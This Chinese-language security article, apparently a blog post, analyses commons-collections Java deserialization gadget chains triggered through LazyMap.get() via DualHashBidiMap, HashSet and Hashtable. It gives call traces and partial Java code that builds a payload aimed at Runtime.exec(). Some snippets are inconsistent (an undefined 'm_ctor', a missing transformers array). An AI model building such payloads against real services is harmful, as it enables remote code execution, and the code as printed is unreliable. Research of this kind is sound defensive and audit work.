





简述
本文主要整理在反序列化利用链中通过Map.get()方式触发的函数，并进行流程分析。希望通过对多个触发流程的分析可以给大家更清晰了解如何构造出可利用的反序列化链，并在以后的审计中挖掘出新的利用链。
简单回顾
针对于commons-collections系列的利用链目前构造的主要思路是通过LazyMap.get()方法进行调用transformer.transform来触发ChainedTransformer、InvokerTransformer进行反射来打到Runtime.getRuntime.exec()的目的。基本核心为TiedMapEntry->hashCode()/toString() 触发到LazyMap->get()。可以看到LazyMap.get()的核心内容如下图所示：

所以在挖掘的时候我们可以缩小目标到寻找一个Map，在这个Map中，调用了transformer.transform，并且transformer的值可控。便可进一步修改整个利用链达到自己的目的。
分析
在找寻这类方法时要满足两个条件：
1、因为是反序列化漏洞的利用，因此我们寻找的函数需要继承于Serializable满足可被序列化的条件。
2、在重写的readObject()中需要调用一些方法来触发之后的流程。这个在后续分析中可以更清晰的理解。
通过利用链中调用的Map类以此分析理解整体的构造流程。
DualHashBidiMap
1
2
3
4
5
6
7
8
9
10
11
12
| 利用条件：
commons-collections-3.1.jar or commons-collections-3.2.1.jar
触发过程：
org.apache.commons.collections.bidimap.DualHashBidiMap->readObject()
org.apache.commons.collections.bidimap.DualHashBidiMap->putAll()
org.apache.commons.collections.bidimap.DualHashBidiMap->put()
java.util.HashMap->containsKey()
java.util.HashMap->hash()
org.apache.commons.collections.keyvalue.TiedMapEntry->hashCode()
org.apache.commons.collections.keyvalue.TiedMapEntry->getValue()
org.apache.commons.collections.keyvalue.LazyMap->get()
|
首先看到DualHashBidiMap类在重写readObject()方法的时候调用了一个putAll()方法，进一步跟入。

可以看到这里调用了put()方法进行了this.maps[].containsKey()方法调用。

通过查看HashMap()的方法我们可以看到，在HashMap.containsKey()方法中进行了hash(key)的操作。而在该方法中进行了key.hashCode()方法的调用。

进一步观察TiedMapEntry这个类我们可以看到在该类的方法中有三个函数均调用了getValue()操作，也就是说这三个方法在构造时我们都可以利用。

在该类的getValue()方法中调用了this.map.get(this.key)方法。
至此我们走到了利用链的最后一环也就是文章开头所说的CC系列的transformer调用触发点。
整个利用链调用的类已经看完了接下来简单说明下构造所要做的事情。
首先需要生成一个DualHashBidiMap()作为反序列化调用in.readObject()的入口出发点。当反序列化触发的时候会调用putAll方法()该方法接受一个Map参数，进一步调用put()方法 因为后续要触发HashMap.containsKey()方法，在put方法中调用的是this.map[0].containsKey(key) 也就是说我们开始构造DualHashBidiMap()时就需要生成一个HashMap()
1
2
3
| protected DualHashBidiMap(Map normalMap, Map reverseMap, BidiMap inverseBidiMap) {
super(normalMap, reverseMap, inverseBidiMap);
}
|
而在这里该类构造方法时是一个protected方法，所以我们需要通过反射进行调用。
1
2
3
4
| Class cls = Class.forName("org.apache.commons.collections.bidimap.DualHashBidiMap");
Constructor ctor = cls.getDeclaredConstructor(Map.class, Map.class, BidiMap.class);
ctor.setAccessible(true);
Object payload_instance = m_ctor.newInstance([Map], null, null);
|
在上面说到构造时我们需要传入一个HashMap()，由于在后续需要触发到TiedMapEntry.hashcode()在上面代码分析中我们知道HashMap会调用key.HashCode()方法，因此我们要将HashMap的key设置为TiedMapEntry。又因为需要到LazyMap.get()而这里的也就是说需要在构造TiedMapEntry时将map设置为LazyMap。同时为了触发transformer需要在构造LazyMap时设置factory为transformer类型。至此利用链构造成功。
1
2
3
4
5
6
7
8
9
10
11
| Transformer transformerChain = new ChainedTransformer(transformers);
Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);
TiedMapEntry entry = new TiedMapEntry(lazyMap, "haha");
Map<String, Object> hashMap = new HashMap<String, Object>();
hashMap.put("test", entry);
Class cls = Class.forName("org.apache.commons.collections.bidimap.DualHashBidiMap");
Constructor ctor = cls.getDeclaredConstructor(Map.class, Map.class, BidiMap.class);
ctor.setAccessible(true);
Object payload_instance = m_ctor.newInstance(hashMap, null, null);
|
HashSet
1
2
3
4
5
6
7
8
9
10
| 利用条件：
commons-collections-3.1.jar
触发过程：
java.util.HashSet->readObject()
java.util.HashMap->put()
java.util.HashMap->hash()
org.apache.commons.collections.keyvalue.TiedMapEntry->hashCode()
org.apache.commons.collections.keyvalue.TiedMapEntry->getValue()
org.apache.commons.collections.map.LazyMap->get()
|
Hashtable
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
| 利用条件：
commons-collections-3.1.jar - commons-collections-3.2.1.jar
触发过程：
java.util.Hashtable->readObject()
java.util.Hashtable->reconstitutionPut()
org.apache.commons->collections.map.AbstractMapDecorator.equals()
java.util.AbstractMap->equals()
org.apache.commons.collections.map.LazyMap->get()
java.util.HashSet->readObject()
java.util.HashMap->put()
java.util.HashMap->hash()
org.apache.commons.collections.keyvalue.TiedMapEntry->hashCode()
org.apache.commons.collections.keyvalue.TiedMapEntry->getValue()
org.apache.commons.collections.map.LazyMap->get()
|

感谢鼓励